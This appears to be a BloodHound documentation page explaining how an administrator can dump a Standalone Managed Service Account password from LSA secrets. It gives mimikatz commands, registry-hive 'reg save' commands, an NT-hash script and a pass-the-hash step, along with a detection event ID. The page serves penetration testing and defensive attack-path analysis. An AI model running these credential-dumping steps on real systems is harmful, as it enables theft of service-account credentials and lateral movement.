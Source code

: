 ```yaml
---
title: DumpSMSAPassword
description: "A computer with this indicates that a Standalone Managed Service Account (sMSA) is installed on it."
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


An actor with administrative privileges on the computer can retrieve the sMSA’s password by dumping LSA secrets.

## Abuse Info

From an elevated command prompt on the computer where the sMSA resides, run mimikatz then execute the following commands:

```bash
privilege::debug
token::elevate
lsadump::secrets
```

In the output, find _\_SC\_\{262E99C9-6160-4871-ACEC-4E61736B6F21}__ suffixed by the name of the targeted sMSA. The next line contains _cur/hex :_ followed with the sMSA’s password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using a small python script:

```bash
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

Execute it like so:


```bash
python3 nt.py 35f3e1713d61...
```

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of the _SYSTEM_ and _SECURITY_ registry hives from an elevated prompt:


```bash
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

Transfer the files named _SYSTEM_ and _SECURITY_ that were saved at _%temp%_ to another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the following command to obtain the hex-encoded password:

```bash
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## Opsec Considerations

Access to registry hives can be monitored and alerted via event ID 4656 (A handle to an object was requested).

## References

* [https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html](https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
